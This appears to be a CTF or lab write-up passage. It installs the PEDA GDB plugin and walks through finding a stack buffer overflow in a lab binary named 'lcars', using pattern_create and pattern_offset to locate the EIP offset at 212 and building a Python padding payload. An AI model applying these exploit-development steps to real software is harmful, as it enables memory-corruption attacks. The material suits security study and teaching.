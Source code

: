     - investigate improper behavior of your program.
    - find cause of logical error which is hard to find just by looking at source code.
    - analyze crash occuring in your application.

> **PEDA**: Python Exploit Development Assistance for GDB.

> Position Independent Executables (**PIE**) randomizes the offset of almost every memory region in the binary. To bypass this mitigation, one must have a leaked address to calculate the offset and compensate.

```bash
sudo apt-get update
sudo apt-get install gdb

sudo su         # [root user]
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
su user         # [low privilege user]
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

gdb ./lcars_binary
    /> checksec
#     --> NX: disabled      :)
#     --> PIE: ✓            :(        Is recommended not inyect shellcode in the stack!

    /> r
    /> picarda1
    /> 4
    /> AAAA....A
#     --> EBP: 0x41414141 ('AAAA')
#     --> ESP: 0xffffce50 ('A' <repeats 200 times>...)
#     --> EIP: 0x41414141 ('AAAA')                        <-- Is not a record

    /> i r                      # <-- see all Records
    /> pattern_create 1000
    /> r
    /> picarda1
    /> 4
    /> AAAA....
    /> pattern_offset $eip
    /> pattern_offset 0x25412425
    /> pattern_offset '%$A%'
#     --> %$A% found at offset: 212

file lcars
#   --> ELF 32-bit --> little-endian

python3 -c 'print("A"*212 + "B"*4 + "C"*100)'

    /> r
    /> picarda1
    /> 4
    /> AAAAAA...CCCC            # :)
```
